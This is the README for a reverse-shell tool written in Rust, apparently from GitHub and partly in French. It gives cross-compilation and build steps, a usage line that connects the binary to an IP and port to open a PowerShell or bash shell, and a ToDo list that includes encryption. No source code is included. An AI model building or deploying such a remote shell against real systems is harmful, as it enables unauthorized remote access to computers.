 # rust-rev-shell

# Installation
- Pour ajouter le compilateur Windows depuis Linux :

```rustup target add x86_64-pc-windows-gnu && cargo install cross```

- Pour ajouter le compilateur Linux depuis Windows :
- 
```rustup target add x86_64-unknown-linux-gnu && cargo install cross```

# Compilation
- Linux for Linux :
``` cargo build ```
- Windows for Windows:
``` cargo build ```
- Linux for Windows :
```cross build --target x86_64-pc-windows-gnu --release```
- Windows for Linux
```cargo build --target x86_64-unknown-linux-gnu --release```

# Usage
``` ./revshell <IP> <PORT> <powershell|bash> ```

# ToDo
- Add Linux support
- Split function in multiple files
- Encryption
